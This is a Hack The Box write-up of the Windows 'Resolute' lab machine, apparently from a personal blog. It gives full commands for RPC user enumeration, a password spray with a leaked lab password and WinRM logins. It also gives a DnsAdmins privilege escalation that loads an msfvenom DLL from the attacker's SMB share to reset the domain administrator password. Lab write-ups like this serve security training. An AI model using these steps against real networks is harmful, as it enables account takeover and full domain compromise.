 ```yaml
---
title: "Resolute - HTB"
categories: [Medium]
tags: [Windows,Medium,RPC,PasswordSpray,DNSAdmin,AD]
mermaid: true
render_with_liquid: false
image: https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Resolute.png
---
```


# Introdution

[https://app.hackthebox.com/machines/Resolute](https://app.hackthebox.com/machines/Resolute)

This is a medium box Windows. We starts enum users through RPC, where It was found a users list. Also It was found a password. Then It is done a Password Spray that allow to find melanie credential. Into in box, we discovered the ryan user credential. He is part of the DnsAdmins group, this group usually has elevated privilege. We explored this and get the Administrator shell.

**Have a good time!**

## Diagram

```mermaid
graph TD
    A[Enumeration] --> |rcpclient| AA(Users list and credential) -->
    B[Exploration] --> |Password Spray| BB[/Melanie/] -->
    C[Post-Exploration] --> |Enum Local| CC[/Ryan user/] --> |DnsAdmin| D
    D((Administrator))
```

# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.169 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -Pn -p $ports 10.10.10.169
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled.png)

## **Port 445 (RPC)**

- `rpcclient -U "" -N 10.10.10.169`
    
    ```bash
    enumdomusers
    ```
    
    ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%201.png)
    
    I can get information about the users one by one with `queryuser`:
    
    ```bash
    queryuser 0x1f4
    ```
    
    ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%202.png)
    
    I can also get less information about all users with `querydispinfo`:
    
    ```bash
    querydispinfo
    ```
    
    ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%203.png)
    
    We found a password in clear: **Welcome123!**
    

# Exploration

**Password Spray**

With the clear password found (**Welcome123!**), we’ll do a Password Spray with the users found.

```bash
crackmapexec smb 10.10.10.169 -u users -p 'Welcome123!' --continue-on-success
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%204.png)

We can login in SMB through credential:

> User :**melanie**
> 
> Pass: **Welcome123!**


```bash
evil-winrm -i 10.10.10.169 -P 5985 -u melanie -p 'Welcome123!'
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%205.png)

**HABEMUS SHELL!!!**

# Post Exploration

## Melanie → Ryan

A hidden file was found that revelate a credential of **ryan** user.

> User: **ryan
> 
> Pass: Serv3r4Admin4cc123!**
> 

```bash
ls -force
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%206.png)

`C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt`

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%207.png)

```bash
evil-winrm -i 10.10.10.169 -P 5985 -u ryan -p 'Serv3r4Admin4cc123!'
```

## Ryan → Administrator

### DNSAdmins

```bash
whoami /groups
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%208.png)

We verified that the ryan user is part of the DnsAdmins group, this group usually has elevated privilege. Then we’ll use the dnscmd.exe to execute commands with SYSTEM. The dnscmd will do that the target download an evil DLL into my KALI and run it as a DNS service plugin.

```bash
# Payload DLL
	msfvenom -p windows/x64/exec cmd='net user administrator Senha#123! /domain' -f dll -o perverse.dll

# Smb Server
	impacket-smbserver share . -smb2support

# In target, download it and run a DLL.
	cmd /c dnscmd localhost /config /serverlevelplugindll \\10.10.14.7\share\perverse.dll
	sc.exe stop dns
	sc.exe start dns

# After Administrator password changed, login it.
	impacket-psexec megabank.local/administrator@10.10.10.169
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Resolute/Untitled%209.png)

**HABEMUS ROOT!!!**